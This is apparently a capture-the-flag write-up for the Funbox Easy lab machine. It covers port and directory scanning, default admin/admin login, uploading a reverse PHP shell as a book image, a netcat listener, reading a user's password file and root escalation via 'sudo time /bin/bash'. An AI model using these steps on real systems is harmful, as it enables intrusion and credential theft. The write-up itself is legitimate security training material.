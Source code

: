 *Funbox Easy*

**RECON**

---
**Ip Search**  
Apache Server  
![image14](https://user-images.githubusercontent.com/66635295/159646178-ab903bdc-44d6-4fff-88a9-23279bd1bd5f.png)

**Nmap Scan**  
<pre>nmap 192.168.54.111</pre>  
 Knowing Funbox Rookie  not really expecting much from nmap. Dirb will be better  
![image11](https://user-images.githubusercontent.com/66635295/159646241-09d9fc6b-3b51-44a0-940a-10d757d6cac2.png)  
**Dirb**
<pre> dirb http:// 192.168.54.111 </pre>
![image9](https://user-images.githubusercontent.com/66635295/159838630-52b57a84-a48a-432c-99a4-82ddb3220bbf.png)  
![image13](https://user-images.githubusercontent.com/66635295/159838668-7011e6b1-ca86-4cff-a242-8c0044220ef0.png)  


**ENUMURATION**
---
**Admin Page**
<pre> Name: admin  </pre>  
<pre> Pass: admin </pre>  
Accepts basic admin credentials   
![image10](https://user-images.githubusercontent.com/66635295/159838808-74b66b91-a7dc-491c-acf8-4bc0cb6aa74a.png)  
**Add New Book**  
Notice the image files  
![image7](https://user-images.githubusercontent.com/66635295/159838890-53cb1c83-daee-45fa-8b3f-7c5078b99618.png)

**Create New Book**  
Uploading reverse PHP Shell in images    
![image2](https://user-images.githubusercontent.com/66635295/159838930-bbbd34b1-a8e8-40ce-a369-be8aa9ba5125.png)
**Shell Exploit**  
Pentest Monkey Reverse PHP    
![image1](https://user-images.githubusercontent.com/66635295/159838982-54625cd5-df41-4deb-bbf4-c9bd33f1dccd.png)
**Configure the Shell**  
Open up a Netcat listener   
<pre>nc -lvp 8000   </pre>  
![image16](https://user-images.githubusercontent.com/66635295/159839332-0c9c90df-00e4-41ff-ad32-1d4a327d6d0a.png)

**Find shell**  
Running drib on the store page it appears to be using bootstrap. Check the img directory  
![image3](https://user-images.githubusercontent.com/66635295/159839387-0001fc05-c997-4bd5-ba0d-2f49d0503191.png)  
**Image Index**  
![image4](https://user-images.githubusercontent.com/66635295/159839421-2c411dff-652c-4ade-9399-bea19d0175dc.png)

**Privilege Escalation**
---
**Reverse Shell**
Opening the php lands a reverse shell
![image6](https://user-images.githubusercontent.com/66635295/159839585-994be4ad-5c91-44d4-8e65-a76a9c628445.png)

**User Passwords**
<pre> cd home  </pre>
<pre> cd tony  </pre>
<pre> cat password.txt  </pre>
![image15](https://user-images.githubusercontent.com/66635295/159839741-f6fd75c7-e088-475c-9034-6354deebf38a.png)

**SSH tony**
<pre> ssh tony@192.168.54.111  </pre>
<pre> Password: yxcvbnmYYY  </pre>
<pre> sudo -l  </pre>
pkexec, time and mtr can help us escalate to root  
![image12](https://user-images.githubusercontent.com/66635295/159840097-6bcb2a30-ad2a-44b2-96ec-154b1eda8dae.png)  




  

**Root Escalation**
---  
**Bin Bash**  
<pre> sudo time /bin/bash  </pre>
![image5](https://user-images.githubusercontent.com/66635295/159840202-12eb4fec-fe85-491a-a72e-96897d2a1803.png)  

**Root Flag**
<pre>  cd root </pre>  
![image8](https://user-images.githubusercontent.com/66635295/159840265-0726a908-2003-4b69-b586-bfaff7585fec.png)  


**Local Flag**
<pre> cd var  </pre>
<pre> cd www  </pre> 
![image17](https://user-images.githubusercontent.com/66635295/159840340-8757eee2-6bf0-42d7-8f5f-9daf42ff61d5.png)


